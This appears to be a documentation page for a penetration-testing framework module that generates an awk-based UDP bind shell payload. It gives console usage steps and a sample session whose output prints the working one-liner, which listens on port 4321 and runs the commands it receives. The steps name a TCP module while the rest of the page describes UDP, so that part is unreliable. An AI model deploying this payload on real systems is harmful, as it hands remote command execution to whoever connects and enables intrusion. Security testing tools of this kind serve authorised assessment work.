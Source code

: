 ## Description

Module generates payload that creates interactive udp bind shell by using awk. 

## Verification Steps

  1. Start `./thgconsole.py`
  2. Do: `use payloads/cmd/awk_bind_tcp`
  3. Do: `set rport 4321`
  4. Do: `run`
  5. Module generates awk udp bind shell payload

## Scenarios

```
rsf > use payloads/cmd/awk_bind_udp
rsf (Awk Bind UDP) > set rport 4321
[+] rport => 4321
rsf (Awk Bind UDP) > run
[*] Running module...
[*] Generating payload
awk 'BEGIN{s="/inet/udp/4321/0/0";for(;s|&getline c;close(c))while(c|getline)print|&s;close(s)}'
```
